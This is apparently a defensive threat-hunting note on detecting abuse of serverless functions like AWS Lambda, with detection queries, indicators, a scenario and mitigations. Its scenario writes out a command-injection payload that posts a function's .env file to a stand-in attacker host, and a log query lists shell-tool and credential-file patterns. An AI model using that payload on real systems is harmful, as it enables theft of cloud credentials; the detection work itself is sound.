

# Serverless Function Lambda Abuse Detection

Serverless functions—such as AWS Lambda, Azure Functions, and GCP Cloud Functions—abstract the underlying OS and infrastructure, allowing developers to run code solely in response to event triggers. However, this profound abstraction does not eliminate security risks; it simply shifts the attack surface. Threat actors increasingly target serverless environments to execute malicious code, steal IAM credentials, establish persistent backdoors, launch Denial of Wallet (DoW) attacks, and pivot into the broader internal cloud network.

Threat hunting in serverless environments is notoriously difficult. You cannot deploy a traditional Endpoint Detection and Response (EDR) agent on a Lambda function. You have no access to the hypervisor, the underlying node, or the network tap. Instead, you must rely entirely on application execution logs, invocation metrics, network telemetry (if attached to a VPC), and IAM behavioral analysis.

## Attack Vectors against Serverless Functions

1. **Event-Data Injection**: Input supplied to the function (via an API Gateway payload, an S3 object upload event, or a message queue like SQS) contains malicious payloads designed to trigger OS command injection, SQL injection, or deserialization flaws.
2. **Dependency Exploitation**: The serverless function relies on a vulnerable third-party library (e.g., Log4Shell in Java, vulnerable npm packages in Node.js) included in the deployment package.
3. **Credential Theft (The Holy Grail)**: Exfiltrating the execution environment's internal environment variables. These variables inevitably contain the temporary, high-privileged cloud provider access keys assigned to the function.
4. **Denial of Wallet (DoW)**: Intentionally triggering the function millions of times to exhaust the victim's cloud budget or cause organizational denial of service via concurrency limits.
5. **Control Plane Persistence**: Modifying the function's underlying code, layer configurations, or environment variables via the Cloud API to maintain a hidden backdoor.

## Serverless Attack Flow Architecture



## Threat Hunting Methodologies

### 1. Detecting Credential Theft and External Abuse

Every AWS Lambda function operates under an IAM "Execution Role." The temporary STS credentials for this role are exposed as environment variables (`AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `AWS_SESSION_TOKEN`) directly inside the Firecracker microVM. If an attacker gains Remote Code Execution (RCE), their first action is almost always to dump these variables.

**Hunting Hypothesis:** An attacker has stolen a Lambda's temporary STS credentials via an application flaw and is using them from outside the AWS corporate boundary.

**Indicators:**
- Look for CloudTrail events where the `userIdentity.arn` matches a Lambda execution role, BUT the `sourceIPAddress` is NOT an internal AWS IP address or VPC NAT Gateway.
- Identify discovery API calls (`GetCallerIdentity`, `ListBuckets`, `DescribeInstances`, `ListRoles`) made by a Lambda role. Legitimate Lambdas are built for single-purpose tasks (e.g., thumbnail generation, database updates) and almost never perform broad environment discovery.

**Splunk SPL / KQL Example for Stolen Credential Usage:**
```kusto
CloudTrail
| where UserIdentityArn contains "assumed-role"
| where UserIdentityArn contains "Lambda" or UserIdentityArn contains "Function"
| where SourceIpAddress !matches regex @"^(10\.|172\.(1[6-9]|2[0-9]|3[0-1])\.|192\.168\.)"
| where SourceIpAddress !endswith ".amazonaws.com"
// Filter out legitimate AWS service communications
| summarize CallCount = count(), FirstSeen = min(TimeGenerated), LastSeen = max(TimeGenerated) 
  by SourceIpAddress, EventName, UserIdentityArn
| where CallCount > 0
| order by CallCount desc
```

### 2. Spotting Command Injection and Abnormal Execution

Because you lack an OS-level agent, you must rely on standard output, error logging, and performance metrics. Application logs (AWS CloudWatch Logs, Azure Application Insights) are your primary data sources.

**Hunting Hypothesis:** An attacker is exploiting a vulnerability in the serverless application logic to execute arbitrary OS commands within the microVM.

**Indicators:**
- **Execution Duration Anomalies**: An injected `sleep 10`, a reverse shell connection, or a cryptomining script will cause the function to run significantly longer than its historical baseline. Look for executions hitting the function timeout limit.
- **Log Stream Anomalies**: Look for suspicious strings in CloudWatch logs. Attackers might use `curl`, `wget`, `cat /etc/passwd`, `chmod +x`, or `env` commands. If the application throws an unhandled exception or prints stderr, these commands or their outputs will end up in CloudWatch.
- **Network Traffic Anomalies**: If the Lambda is attached to a VPC (which it should be for sensitive operations), monitor VPC Flow Logs for outbound connections from the Lambda's subnet to unknown public IPs on unusual ports (e.g., 4444, 1337) or to known C2 domains.

**CloudWatch Logs Insights Query for Suspicious Commands:**
```text
fields @timestamp, @message
| filter @logStream like /AWS\/Lambda/
| filter @message like /(?i)(curl|wget|bash|sh|nc|netcat|python\s*-c|env|export|cat\s*\/etc\/passwd)/
| sort @timestamp desc
| limit 100
```

### 3. Modifying Function Configurations (Control Plane Persistence)

Attackers who compromise an identity with high privileges may backdoor an existing function rather than deploying a new, noisy resource.

**Hunting Hypothesis:** A threat actor is updating a function's code, layer, or configuration to inject a persistent backdoor.

**Indicators:**
- `UpdateFunctionCode` or `UpdateFunctionConfiguration` API events originating from unusual IPs or unusual IAM users.
- Changes to the function's Environment Variables (e.g., injecting an attacker-controlled API key or altering a `LD_PRELOAD` path).
- Modification of the Function's Resource-Based Policy (`AddPermission`), allowing an external AWS account or public unauthenticated access to invoke the function.
- `CreateFunction` events deploying a suspiciously large deployment package, utilizing unapproved runtime environments, or pulling code from an untrusted, external S3 bucket.

### 4. Detecting Denial of Wallet (DoW) and Resource Exhaustion

Serverless scales automatically, which is fantastic for availability but disastrous for cost control during an attack.

**Indicators:**
- Massive, unprecedented spikes in `Invocations` and `Throttles` metrics in CloudWatch.
- High `ConcurrentExecutions` hitting the AWS account limit, which implicitly creates a Denial of Service by preventing other legitimate functions in the account from running.
- Sudden, extreme spikes in AWS Billing alerts and Cost Explorer metrics linked to Lambda compute time and API Gateway requests.

## Real-World Attack Scenario

### Scenario: The Python Reverse Shell Lambda

1. **Initial Access**: The organization deploys a Python-based Lambda function that processes JSON payloads ingested from a public API Gateway. The function poorly implements validation and uses `eval()` or `os.system()` unsafely on a user-controlled input field called `format_string`.
2. **Execution**: The attacker sends a crafted JSON payload: `{"format_string": "os.system('curl -X POST -d @/var/task/.env http://malicious-c2.com/leak')"}`.
3. **Exfiltration**: The Lambda function blindly executes the OS command, sending the microVM's environment variables (including the highly sensitive AWS STS session tokens) to the attacker's server.
4. **Privilege Escalation**: The attacker configures their local AWS CLI with the stolen tokens. They run initial discovery and realize the Lambda role was overly permissive, possessing `iam:PassRole` and `ec2:RunInstances`.
5. **Impact**: The attacker immediately spins up 50 high-end GPU instances (p4d.24xlarge) across multiple regions for cryptomining, causing immense financial damage.

**Hunter's Response:**
- The threat hunter monitors VPC Flow Logs for the VPC subnet assigned to Lambdas and notices sudden outbound HTTP traffic to an unclassified IP address (malicious-c2.com) `[[14 - Correlating Cloud Identity with Network Activity]]`.
- Correlating the timestamp with CloudTrail, the hunter identifies that the assumed role credentials of that specific Lambda function were subsequently used from an external, residential IP address to execute `RunInstances`.
- The hunter reviews the API Gateway access logs, isolates the specific HTTP request, and retrieves the anomalous JSON payload containing the `os.system` injection string from the payload logs.
- The incident is contained by revoking the STS session, deleting the rogue EC2 instances, and patching the Python function.

## Tooling and Cloud Native Telemetry

To successfully hunt in serverless, you must stitch together disparate telemetry sources:
- **AWS**: CloudTrail (Management Events for control plane changes), CloudWatch Logs (Function stdout/stderr for application layer), CloudWatch Metrics (Invocations, Errors, Duration), AWS X-Ray (Tracing and dependency calls), and VPC Flow Logs (Network layer).
- **Azure**: Azure Activity Logs, Azure Monitor, and Application Insights (crucial for request telemetry and exceptions).
- **GCP**: Cloud Audit Logs, Cloud Monitoring, and Cloud Trace.

## Remediation and Mitigation Strategies

1. **Strict Least Privilege IAM**: The Lambda execution role must be microscopically scoped. Never attach `AdministratorAccess` or broad managed policies. If the function's only purpose is to write to a single DynamoDB table, its IAM policy should grant exactly `dynamodb:PutItem` on that specific Table ARN, and nothing else.
2. **VPC Integration and Egress Filtering**: Run sensitive Lambda functions strictly inside a VPC. Attach strict Security Groups that deny all outbound internet access. If the Lambda must communicate with AWS services (like S3 or Secrets Manager), use VPC Endpoints (PrivateLink) instead of traversing the public internet.
3. **Input Validation and Secure Coding**: Strictly sanitize all input from triggers (API Gateway payloads, S3 object names, SQS message bodies). Avoid dynamic execution sinks like `eval()` entirely.
4. **Code Signing and Immutability**: Utilize AWS Signer to ensure that only cryptographically trusted, signed code pipelines can deploy or update Lambda functions, preventing unauthorized backdoor modifications.

---

## Chaining Opportunities
- Attackers successfully leveraging stolen Lambda credentials will almost inevitably target object storage next to exfiltrate data `[[11 - Identifying Anomalous Cloud Storage Access Buckets]]`.
- The high-volume techniques required for hunting in serverless environments dictate the need for a continuous big-data pipeline `[[15 - Building a Cloud Native Threat Hunting Pipeline]]`.
- Correlating network egress traffic from Lambda subnets to external C2 domains is critical for spotting the initial beacon `[[14 - Correlating Cloud Identity with Network Activity]]`.

## Related Notes
- `[[06 - Serverless Architecture Vulnerabilities]]`
- `[[09 - IAM Privilege Escalation Paths in AWS]]`
- `[[22 - Log Analysis with CloudWatch and CloudTrail]]`
- `[[28 - Application Security in Microservices]]`
